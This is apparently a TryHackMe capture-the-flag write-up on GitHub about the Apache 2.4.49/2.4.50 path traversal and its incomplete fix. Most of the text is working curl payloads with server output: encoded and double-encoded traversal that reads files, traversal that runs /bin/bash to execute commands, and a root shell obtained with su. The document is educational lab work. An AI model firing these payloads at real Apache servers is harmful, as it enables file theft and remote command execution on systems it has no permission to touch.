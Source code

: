 <h1 align="center">CVE-2021-41772/42014</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/3e13c697-7497-48e1-ba05-b3fb80855c43"><br>
July 3, 2025<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure,<br>
part of my <code>423</code>-day-streak in<a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>A small explanation of an Apache path traversal bug and an incomplete fix.</em>.<br>
Access it <a href="https://tryhackme.com/room/cve202141773"</a>here.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/3e13c697-7497-48e1-ba05-b3fb80855c43></p>



![image](https://github.com/user-attachments/assets/0336c5b4-ee3a-4059-b263-916cd4478b32)





![image](https://github.com/user-attachments/assets/85a38630-7b4d-4239-85e5-4f1850c0d7e2)

![image](https://github.com/user-attachments/assets/9fd50766-fb44-4cd3-beef-400de55543ab)

![image](https://github.com/user-attachments/assets/34a37380-86a9-4669-8738-85f848df40b9)

```bash
```

![image](https://github.com/user-attachments/assets/aa2b002a-2bcd-4926-96eb-c2d69f989a44)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 1... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
* Connection #0 to host 10.10.160.15 left intact
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/b6815ccb-f7ef-4a9d-9f48-295af3dd60c6)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
...
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/ab8d18f3-c960-477c-ad4c-68216453b860)

![image](https://github.com/user-attachments/assets/2d55a44b-a61a-4e23-b176-ffde1fd0445a)


```bash
:~/InfoRoom# curl -v 'http://1TargetIP:8081/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{2C3_F20M_C61}
```


```bash
:~/InfoRoom# curl -v 'http://TargetIP:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'
...
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "18-5ce102e26103d"
< Accept-Ranges: bytes
< Content-Length: 24
< Content-Type: text/plain
< 
...
THM{D0UBL3_3NC0D1N6_F7W}
```

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
*   Trying 10.10.160.15:8083...
* TCP_NODELAY set
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{F1L732_8YP455_2C3}
```

![image](https://github.com/user-attachments/assets/7c519922-90a4-44a2-916c-6e5ec4e68724)


```bash
daemon@18c7613b3859:/bin$ whoami
whoami
daemon
daemon@18c7613b3859:/bin$ su root
su root
Password: ApacheCVE
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/bin
cd /root
ls
root.txt
cat root.txt
THM{P21V_35C_F20M_4P4CH3_15_FUN}
```


<br>
<br>

![image](https://github.com/user-attachments/assets/6a81a593-6122-4acb-801d-162bb1f46795)

![image](https://github.com/user-attachments/assets/5a401eff-c01a-48a8-8927-2af2fafc5b65)


